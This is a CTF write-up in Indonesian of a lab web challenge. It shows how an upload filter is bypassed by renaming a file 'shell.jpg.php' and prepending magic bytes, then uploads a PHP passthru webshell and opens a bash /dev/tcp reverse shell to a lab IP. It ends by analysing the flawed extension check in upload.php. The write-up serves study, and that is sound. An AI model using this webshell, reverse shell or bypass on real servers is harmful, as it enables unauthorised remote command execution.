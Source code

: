 # Day 2 |  The Elf Strikes Back

`Web Exploitation` `RCE`

---
## Learning Outcomes

- Understanding GET and POST parameters
- Bypass file upload 
- Vulnerability Analysis by me!

## Summary

1. Find a file upload point.
2. Try uploading some innocent files -- what does it accept? (Images, text files, PDFs, etc)
3. Find the directory containing your uploads.
4. Try to bypass any filters and upload a reverse shell.
5. Start a netcat listener to receive the shell
6. Navigate to the shell in your browser and receive a connection!

## Write up

Pada task kali ini, diberikan suatu ID = ODIzODI5MTNiYmYw.

ID tersebut digunakan untuk mengakses page berikut.

![216ec1cef8706fce53b9beb88299a35d.png](./_resources/43573e0df86d4193b3e3085d5cec04d9.png)

> Pengingat:
>- Metode POST request : data yang dikirim diikutkan body request (tidak tampak di URL, namun bisa di intercept)
>- Metode GET request : data yang dikirim terlihat pada URL berupa parameter
>   - Setiap nilai parameter dipisah dengan &


Caranya adalah menambahkan query (tanda tanya `?`) dengan parameter `id=value`.

http://10.10.43.11/?id=ODIzODI5MTNiYmYw

![c196cb699c437c800581393bd693bed8.png](./_resources/369e7c46d6a247a68e2c56a6520e78fc.png)

Dari sini upload file dapat dilakukan, dimana ekstensi yang diminta adalah jpeg, jpg, dan png.

![6fc7281b9f43b120870d2661a7f33cc4.png](./_resources/4e66d9a56752494a974331937c6adcc0.png)

Berikut adalah list common uploads directory  
- /uploads
- /images
- /media
- /resources

File yang diupload berada pada directori /uploads, selanjutnya adalah mempersiapkan shell/backdoor web pada direktori tersebut.

Disini saya menggunakan webshell yang merupakaan bawaan dari Kali Linux.

```
<MAGICBYTES>
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```
> *magic bytes : https://en.wikipedia.org/wiki/List_of_file_signatures*

Magicbytes digunakan untuk mengelabui/membypass uploader, meyakinkan bahwa yang diupload adalah file jpeg bukan webshell/backdoor.  

![2b1f5c137288962d3e193c0bce5093cc.png](./_resources/0aac928f2ead427d9cb1805986af8448.png)

Namun hal tersebut tidak berhasil. Ternyata ketika dibalik menjadi shell.jpg.php, webshell berhasil di upload.

![759dccab6add96541caf6777c2e0ce7a.png](./_resources/f4b4e9df972a42648980fde77011e691.png)

Sekarang Remote Code Execution (RCE) dapat dilakukan

![8a1272d07209ebe2ffba128811fb2302.png](./_resources/c93d20e6d336472db6aa54a7534f2a09.png)

Berikutnya adalah mendapatkan reverse shell.

```
bash -i >& /dev/tcp/10.9.30.115/9000 0>&1
```
Sedikit penjelasan
- bash -i >& /dev/tcp/10.9.30.115/9000   
" Bash, berikan interactive shell melalui TCP, pada 10.9.30.115 di port 9000 "
- 0>&1
" Redirect stdin (input) ke stdout (ouput) ", maksudnya setiap perintah yang diketik dalam reverse shell tersebut, maka akan di ditampilkan kembali ke terminal

Contoh gambar  

```
bash-4.4$ pwd   <-- ini stdin  
pwd             <-- ini stdout
/var/www/html/uploads
```

![8525accc17e0b613db09cbaca471ce8e.png](./_resources/c6f980247a834023bb9cb5fd3b73424c.png)

Flag ditemukan pada /var/www/flag.txt

```
find / -type f 2>/dev/null | grep flag
```

![a6306e4a9eeaddec28e4128fd6c846b6.png](./_resources/63d77db614f4487590f9840055323679.png)


## Vulnerability Analysis	

### Bypass upload filter

/var/www/html/upload.php
```
<?php
        try{
                $data = json_decode(file_get_contents("php://input"), true);
        } catch (Exception $e) {
                die(json_encode(["res"=>"Error", "msg"=>"Invalid JSON"]));
        }

        if(!isset($data["mime"]) || !isset($data["name"]) || !isset($data["body"]) || !isset($data["id"])){
                die(json_encode(["res"=>"Error", "msg"=>"Invalid parameters"]));
        }


        $ids = explode("\n", file_get_contents("id-list"));
        if(!in_array($data["id"], $ids)){
                die(json_encode(["res"=>"Error", "msg"=>"Not authenticated"]));
        }


        $dir = "uploads/";
        $target = $dir . $data["name"];

        try{
                $image = base64_decode(explode(",", $data["body"])[1]);
        } catch (Exception $e){
                die(json_encode(["res"=>"Error","msg"=>"Invalid image format"]));
        }

        $ext  = trim(explode(".", $data["name"])[1], "\n");
        if(!$ext){
                die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
        } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
                die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
        }

        $outfile = fopen($target, "w");
        fwrite($outfile, $image);
        fclose($outfile);

        echo json_encode(["res" => "Success", "msg" => "File received successfully!"]);

?>
```

Yang membuat kita bisa melakukan bypass adalah line berikut

````
$ext  = trim(explode(".", $data["name"])[1], "\n");
    if(!$ext){
        die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
    } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
        die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
    }

````

Berikut adalah contoh data yang dikirim ketika melakukan file upload

![data.png](./_resources/data.png)

data = {"name":"shell.php", "id":"ODIzODI5MTNiYmYw", ...etc}

Sesampainya pada baris ini

```
$ext  = trim(explode(".", $data["name"])[1], "\n"); 
```
Nama shell.php dipecah/explode dengan titik sebagai pemisahnya menjadi

- shell <-- $data["name"][0] -
- php   <-- $data["name"][1] - diambil dan tidak lolos filter

Maka ketika filename diberi nama shell.jpg.php

- shell <-- $data["name"][0]
- jpg   <-- $data["name"][1] - diambil dan lolos filter
- php   <-- $data["name"][2] - tidak dianggap!

### Remote Code Execution


https://lxadm.com/Apache:_disabling_PHP_execution_in_selected_directories
http://docs.php.net/manual/en/apache.configuration.php#ini.engine